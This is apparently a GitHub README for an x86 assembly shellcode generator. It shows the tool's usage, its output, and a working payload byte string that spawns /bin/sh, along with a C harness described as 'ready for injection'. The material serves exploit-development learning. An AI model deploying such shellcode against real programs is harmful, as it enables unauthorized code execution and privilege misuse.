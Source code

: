# 0x86-assembely-shellcodeing

exploitation with assembly shellcodeing and i write a tool to out shellcodeing 


#Usage

```shellcode.sh ./file.asm ```
it will generate like that :
``` 
[+] Successed 
[+] ShellCode is : 
\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xd2\x31\xdb\x31\xc9\xb0\x46\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x94\x4e\x41\x41\x41\x41\x42\x42\x42\x42
```
you can write it to file.c with

```shellcode.sh ./file.asm c ```
it will generate like that :
```
[+] Successed 
[+] ShellCode is : 
\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xd2\x31\xdb\x31\xc9\xb0\x46\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x94\x4e\x41\x41\x41\x41\x42\x42\x42\x42

 [+] Writing shellCode as shell.c ready for injection
 
```
and this is content of ```generatedfile.c```
```
int main(){

char shellcode[]="\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xd2\x31\xdb\x31\xc9\xb0\x46\xcd\x80\xe8\xdb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x94\x4e\x41\x41\x41\x41\x42\x42\x42\x42";

int (*execshell)();
execshell=(int(*)()) shellcode;

}
```
#Writen And Devleoped By 0xCrypt00o under the Mit license 

